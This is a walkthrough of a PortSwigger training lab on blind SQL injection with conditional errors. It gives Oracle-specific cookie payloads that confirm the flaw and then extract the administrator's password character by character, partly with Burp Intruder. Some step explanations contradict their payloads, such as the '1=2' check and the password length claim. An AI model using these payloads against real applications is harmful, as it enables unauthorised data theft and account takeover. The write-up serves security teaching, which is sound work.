








## Blind SQL injection with conditional errors

**Title:** Blind SQL injection with conditional errors. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Preface

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
``` SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

With the first input, the CASE expression evaluates to `a`, which does not cause any error.
With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.
If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true. Using this technique, you can retrieve data by testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=oMv'`.Verify that an error message is received. Now change it to two quotation marks: `TrackingId=oMv''`. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.





Now we need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: `TrackingId=oMv'||(SELECT '')||'`. In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query: `TrackingId=oMv'||(SELECT '' FROM dual)||'`. As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all `SELECT` statements to explicitly specify a table name.





As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query: `TrackingId=oMv'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`. As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.



You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists: `TrackingId=oMv'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.



The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=oMv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This condition should be true, confirming that the password is greater than 1 character in length. And by iterating we concluded password is 20 characters long.



After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. In the Positions tab of Burp Intruder, change the value of the cookie to:
`TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn. And here comes our cluster bomb option in play. The configuration here we saw earlier in our pervious lab. `TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,$payload_01$,1)='$payload_02$' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.



**Summary:**
1. Confirming vulnerability with `TrackingId=oMv'`, `TrackingId=oMv''`.

2. Confirming SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error with `TrackingId=oMv'||(SELECT '')||'`, `TrackingId=oMv'||(SELECT '' FROM dual)||'`.
 
3. `users` table confirmation with `TrackingId=oMv'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`.
 
4. `administrator` user confirmation with `TrackingId=oMv'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.

5. Password length determination with `TrackingId=oMv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
 
6. Password enumeration with `TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
